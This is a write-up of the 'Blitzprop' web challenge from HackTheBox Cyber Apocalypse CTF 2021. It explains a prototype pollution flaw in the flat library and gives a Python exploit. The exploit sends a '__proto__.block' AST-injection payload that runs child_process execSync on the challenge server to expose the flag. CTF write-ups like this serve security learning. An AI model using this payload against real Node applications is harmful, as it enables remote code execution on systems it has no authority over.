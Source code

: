```yaml
---
name: Blitzprop (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Blitzprop (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Blitzprop

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=952s "HTB Cyber Apocalypse CTF 2021: Blitzprop")

## Challenge Description

> To exploit this, you need to use a ‘prototype pollution’ vulnerability within the flat library in order to gain RCE against the target. This requires a request to the server to 'pollute' the JavaScript objects, then a second request to trigger the payload. Overall, it was a really interesting box!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *
import requests

TARGET_URL = 'http://188.166.172.13:31177'

# https://blog.p6.is/AST-Injection/
result = requests.post(TARGET_URL + '/api/submit', json={
    "song.name": "The Goose went wild",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`cp flagz8gWv static/flag`)"
    }
})

flag = requests.get(TARGET_URL + '/static/flag').text
success(flag)
```
{% endcode %}

Flag: `CHTB{p0llute_with_styl3}`
